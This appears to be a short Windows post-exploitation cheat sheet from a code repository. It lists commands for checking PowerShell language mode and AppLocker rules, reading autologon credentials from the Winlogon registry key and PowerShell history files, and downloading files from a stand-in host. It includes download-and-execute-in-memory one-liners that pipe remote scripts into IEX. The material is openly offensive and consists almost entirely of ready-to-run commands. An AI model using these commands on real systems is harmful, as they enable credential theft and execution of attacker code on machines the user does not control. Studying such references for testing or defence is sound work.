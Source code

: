 ### Security Config
* Powershell Language Mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```

* AppLocker
```
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Script
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Msi 
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Dll
```

### Sensitive Information

* autologon
```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

* PowerShell history
```powershell
Get-Content (Get-PSReadlineOption).HistorySavePath
```

```powershell
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Download
* save
```powershell
iwr -uri http://192.168.1.1/file.txt -outfile C:\Windows\Temp\file.txt
(New-Object System.Net.WebClient).DownloadFile("http://192.168.1.1/file.txt", "C:\\Windows\\Temp\\")
```

```cmd
bitsadmin /transfer myjob /download /priority high http://192.168.1.1/file.txt C:\Windows\Temp\file.txt
```

* download and execute script in memory
```powershell
(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/script.ps1') | IEX
$a = (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/script.ps1'); IEX($a);
```

* load script
```powershell
Import-Module <ps1>
Get-Content <ps1> -Raw | IEX
```


